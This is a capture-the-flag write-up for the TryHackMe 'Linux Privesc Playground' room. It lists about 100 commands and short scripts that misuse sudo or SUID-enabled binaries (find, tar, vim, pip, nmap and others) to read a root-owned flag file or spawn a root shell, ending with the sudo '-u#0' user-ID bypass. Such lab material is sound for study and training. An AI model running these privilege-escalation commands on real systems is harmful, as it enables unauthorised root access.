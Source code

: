 # Linux Privesc Playground

## 100 Ways of capturing root flags

[link to room](https://tryhackme.com/room/privescplayground)

1. sudo arp -v -f "/root/flag.txt"
2. sudo ash
3. sudo awk '//' "/root/flag.txt"
4. sudo bash
5. sudo base64 "/root/flag.txt" | base64 --decode
6. sudo busybox sh , sudo busybox cat /root/flag.txt
7. sudo cat /root/flag.txt
8. sudo chmod 0777 /root/flag.txt , cat /root/flag.txt
9. sudo chown $(id -un):$(id -gn) /root/flag.txt , cat /root/flag.txt
10. cp /root/flag.txt /dev/stdout
11. sudo csh , cat /root/flag.txt
12. cut -d "" -f1 /root/flag.txt
13. sudo dash , cat /root/flag.txt
14. date -f /root/flag.txt
15. emacs /root/flag.txt
16. sudo env /bin/sh , cat /root/flag.txt
17. expand /root/flag.txt
18. sudo expect -c 'spawn /bin/sh;interact' , cat /root/flag.txt
19.
 ```bash
TF=$(mktemp -d)
echo 'exec("/bin/sh")' > $TF/x.rb
FACTERLIB=$TF facter
```
20. file -f /root/flag.txt
21. dd if=/root/flag.txt
22. diff --line-format=%L /dev/null  /root/flag.txt
23. sudo dmsetup ls --exec '/bin/sh -s' , cat /root/flag.txt
24. 
```bash 
TF=$(mktemp -d)
echo 'print(open("/root/flag.txt").read())' > $TF/setup.py
easy_install $TF
```
25. sudo find . -exec /bin/sh \; -quit , cat /root/flag.txt
26. sudo flock -u / /bin/sh , cat /root/flag.txt
27. fmt -999 /root/flag.txt
28. fold -w99999999 /root/flag.txt
29. 
```bash 
sudo ftp
!/bin/sh
cat /root/flag.txt
```
30. sudo gawk '//' /root/flag.txt
31. gdb -nx -ex 'python print(open("/root/flag.txt").read())' -ex quit
32.
```bash
sudo irb
puts File.read("/root/flag.txt")
```
33. sudo jq -R . /root/flag.txt
34. sudo ksh , cat /root/flag.txt
35. less /root/flag.txt
36. 
```bash
sudo logsave /dev/null /bin/sh -i
cat /root/flag.txt
```
37.
```bash
sudo ltrace -L /bin/sh
cat /root/flag.txt
```
38.
```bash
git help config
!/bin/sh
```
39. grep '' /root/flag.txt
40. head -c1G /root/flag.txt
41. ionice /bin/sh , cat /root/flag.txt
42. ip -force -batch /root/flag.txt
43. sudo lua -e 'os.execute("/bin/sh")' , cat /root/flag.txt
44. sudo man /root/flag.txt
45. sudo mawk '//' "/root/flag.txt"
46. more /root/flag.txt
47. 
```bash
sudo mount -o bind /bin/sh /bin/mount
sudo mount
cat /root/flag.txt
```
48. mv /root/flag.txt . , cat /root/flag.txt
49. nano /root/flag.txt
50. sudo nawk '//' /root/flag.txt
51. nice /bin/sh , cat /root/flag.txt
52. nl -bn -w1 -s '' /root/flag.txt
53. 
```bash
sudo nmap --interactive
nmap> !sh
cat /root/flag.txt
```
54. od -An -c -w9999 /root/flag.txt
55. openssl enc -in /root/flag.txt
56. sudo perl -e 'exec "/bin/sh";' , cat /root/flag.txt
57. pg /root/flag.txt
58. 
```bash
pic -U
.PS
sh X sh X
cat /root/flag.txt
```
59. 
```bash
pico -s /bin/sh
/bin/sh
Control+T
cat /root/flag.txt
```
60. 
```bash
TF=$(mktemp -d)
echo 'raise Exception(open("/root/flag.txt").read())' > $TF/setup.py
pip install $TF
```
61. sudo puppet apply -e "exec { '/bin/sh -c \"exec sh -i <$(tty) >$(tty) 2>$(tty)\"': }" , cat /root/flag.txt
62. python -c 'print(open("/root/flag.txt").read())'
63. readelf -a @$/root/flag.txt
64. rlwrap /bin/sh , cat /root/flag.txt
65. rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null , cat /root/flag.txt
67. sudo ruby -e 'puts File.read("/root/flag.txt")'
68. run-parts --new-session --regex '^sh$' /bin , cat /root/flag.txt
69. rvim /root/flag.txt
70. 
```bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
scp -S $TF x y:
```
71. sudo screen , press SPACE ,  cat /root/flag.txt
72. sudo script -q /dev/null , cat /root/flag.txt
73. sed '' /root/flag.txt
74. sudo service ../../bin/sh , cat /root/flag.txt
75. setarch $(arch) /bin/sh , cat /root/flag.txt
76. socat stdin exec:/bin/sh , cat /root/flag.txt
77. sort -m /root/flag.txt
78. 
```bash
sudo sqlite3 << EOF
CREATE TABLE t(line TEXT);
.import $LFILE t
SELECT * FROM t;
EOF
```
79. sudo ssh -F /root/flag.txt localhost
80. start-stop-daemon -n $RANDOM -S -x /bin/sh , cat /root/flag.txt
81. stdbuf -i0 /bin/sh , cat /root/flag.txt
82. strace -o /dev/null /bin/sh , cat /root/flag.txt
83. tail -c1G /root/flag.txt
84. sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh , cat /root/flag.txt
85. sudo taskset 1 /bin/sh , cat /root/flag.txt
86. 
```bash
tclsh
exec /bin/sh <@stdin >@stdout 2>@stderr
```
87. /usr/bin/time /bin/sh , cat /root/flag.txt
88. timeout 7d /bin/sh , cat /root/flag.txt
89. sudo tmux , cat /root/flag.txt
90. ul /root/flag.txt
91. unexpand -t99999999 /root/flag.txt
92. uniq /root/flag.txt
93. sudo unshare /bin/sh , cat /root/flag.txt
94. vi /root/flag.txt
95. vim /root/flag.txt
96. sudo watch -x bash -c 'reset; exec bash 1>&0 2>&0' , cat /root/flag.txt
97. xargs -a /root/flag.txt -0 
98. xxd /root/flag.txt | xxd -r
99. 
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
100. sudo zsh , cat /root/flag.txt
101. sudo -u#0 /bin/bash

